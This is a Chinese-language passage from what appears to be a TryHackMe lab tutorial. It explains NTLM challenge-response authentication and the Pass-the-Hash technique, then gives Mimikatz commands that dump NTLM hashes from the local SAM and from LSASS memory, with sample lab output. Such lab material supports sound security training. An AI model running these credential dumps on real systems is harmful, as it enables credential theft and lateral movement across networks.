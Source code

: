 </div>

1. 客户端向其想要访问的服务器发送认证请求。
2. 服务器生成一个随机数，并将其作为挑战发送给客户端。
3. 客户端将自己的 NTLM 密码哈希与挑战（以及其他已知数据）相结合，生成响应以回传给服务器进行验证。
4. 服务器将挑战和响应都转发给域控制器进行验证。
5. 域控制器使用挑战重新计算响应，并将其与客户端最初发送的响应进行比较。如果两者匹配，客户端得到认证；否则拒绝访问。认证结果被发送回服务器。
6. 服务器将认证结果转发给客户端。

描述的过程适用于使用域帐户的情况。如果使用本地帐户，服务器可以在不需要与域控制器交互的情况下直接验证对挑战的响应，因为它在本地的 SAM 中存储了密码哈希。

### 哈希传递

通过从具有管理员权限的主机中提取凭据（使用 Mimikatz 或类似工具），我们可能会得到明文密码或易于破解的哈希值。但如果我们没有那么幸运，最终可能会得到尚未破解的 NTLM 密码哈希。

尽管看起来我们无法真正使用这些哈希值，但在认证期间发送的 NTLM 挑战只需知道密码哈希即可作出响应。这意味着我们可以进行认证，而无需知道明文密码。如果 Windows 域配置为使用 NTLM 认证，我们可以进行 “传递哈希”（Pass-the-Hash，PtH）并成功进行认证。

要提取 NTLM 哈希值，我们可以使用 Mimikatz 从本地 SAM 中读取，或直接从 LSASS 内存中提取哈希值。

#### 从本地 SAM 提取 NTLM 哈希值

此方法只允许您获取计算机上本地用户的哈希值。不会提供任何域用户的哈希值。

```shell title="THMJMP2: Powershell"
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

#### 从 LSASS 内存中提取 NTLM 哈希值

这种方法可以让您提取最近登录到该计算机的任何本地用户和任何域用户的 NTLM 哈希值。

```shell title="THMJMP2: Powershell"
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```
